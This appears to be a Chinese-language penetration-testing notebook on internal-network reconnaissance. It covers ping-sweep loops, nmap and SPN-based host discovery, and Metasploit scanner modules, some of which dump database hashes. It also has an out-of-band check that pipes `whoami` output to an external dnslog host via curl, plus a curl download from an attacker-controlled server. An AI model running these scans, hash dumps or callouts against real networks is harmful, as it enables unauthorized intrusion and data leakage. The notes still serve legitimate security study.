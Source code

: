<a name="1fOoo"></a>
# 
<a name="Oba71"></a>
# 内网存活
nmap探测内网存活扫描<br />nmap -sT -Pn -T4 1.1.1.20 -v<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614779954563-0b195af5-7bb4-4b77-99db-67fbb1ba920d.png#align=left&display=inline&height=259&originHeight=518&originWidth=807&size=49960&status=done&style=none&width=403.5)
<a name="pWLG1"></a>
## 有回显 windows
for /L %I in (1,1,254) Do @ping -w 1 -n 1 10.1.100.%I | findstr "TTL="  （存活ip）<br /> <br />for /L %I in (1,1,254) Do @ping -w 1 -n 1 10.1.%I.1 | findstr "TTL="  （存活的段）<br /> <br /> <br />@for /l %i in (1,1,255) do @ping -n 1 -w 40 192.168.0.%i & if errorlevel 1 (echo 192.168.0.%i>>c:\Noalive.txt) else (echo 192.168.0.%i >>c:\alive.txt)
<a name="EDDvz"></a>
## 有回显 linux(好用!
for i in {1..254} ; do ping -c 1 10.252.$i.254 &>/dev/null && echo 10.252.$i.254 is alive ;done<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611393052733-0171d3dd-8975-454d-b7f4-e74cdaf52b62.png#align=left&display=inline&height=152&originHeight=352&originWidth=961&status=done&style=none&width=415)
<a name="wXjJx"></a>
## 通过SPN探测域内存活主机
接着对拉回来的spn文件进行处理，获取spn记录前面的主机名字<br />grep "CN=" spn.txt | awk -F "," {'print $1'} |  awk -F "=" {'print $2'} > host.txt<br /> <br />接着通过批处理来获取里面的的信息，通过批处理来批量的Ping主机，如果主机有回复的话就会有答复<br />for /f "delims=" %i in (C:\Users\hyadmin\Desktop\2.txt) do @ping -w 1 -n 1 %i | findstr /c ".highsun.com |" >> C:\Users\hyadmin\Desktop\1.txt
<a name="2jLiu"></a>
## msf 探测内网端口
auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口<br />auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口<br />auxiliary/scanner/telnet/telnet_version  #发现内网telnet服务，基于默认23端口<br />auxiliary/scanner/dns/dns_amp            #发现dns服务，基于默认53端口<br />auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口<br />auxiliary/scanner/http/title             #探测内网http服务的标题<br />auxiliary/scanner/smb/smb_version        #发现内网smb服务，基于默认的445端口  <br />use auxiliary/scanner/mssql/mssql_schemadump  #发现内网SQLServer服务,基于默认的1433端口<br />use auxiliary/scanner/oracle/oracle_hashdump  #发现内网oracle服务,基于默认的1521端口<br />auxiliary/scanner/mysql/mysql_version    #发现内网mysql服务，基于默认3306端口<br />auxiliary/scanner/rdp/rdp_scanner        #发现内网RDP服务，基于默认3389端口<br />auxiliary/scanner/redis/redis_server     #发现内网Redis服务，基于默认6379端口<br />auxiliary/scanner/db2/db2_version        #探测内网的db2服务，基于默认的50000端口<br />auxiliary/scanner/netbios/nbname         #探测内网主机的netbios名字<br /> <br />auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机<br />auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机<br />auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机<br />auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)，如果开放了端口，则说明该主机存活
<a name="Ob1us"></a>
# 回显探测技巧
<a name="kJtFM"></a>
### curl
![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611393052986-440fed6e-da7c-4f7c-ba66-fcff00c2b238.png#align=left&display=inline&height=123&originHeight=245&originWidth=1030&status=done&style=none&width=515)<br />curl命令下载（docker容器可用<br />curl [http://ip:port/1.txt](http://ip:port/1.txt) -o /tmp/  把1.txt文件下载到/tmp目录下<br /> <br />curl `whoami`.86neld.dnslog.cn<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611393053238-4eec95a7-3382-4e73-8d07-05d633ad36df.png#align=left&display=inline&height=309&originHeight=643&originWidth=1550&status=done&style=none&width=746)
<a name="OGlLz"></a>
### Ping
Windows<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611393053551-08a5c2e8-3ece-4e90-9b7b-27dea68c3d1c.png#align=left&display=inline&height=87&originHeight=174&originWidth=965&status=done&style=none&width=483)<br />Linux<br />**反引号！！！！！！！**<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611393053894-641d3c2c-3027-4051-a473-d45e3acd3f0e.png#align=left&display=inline&height=125&originHeight=249&originWidth=977&status=done&style=none&width=489)<br /> <br /> 

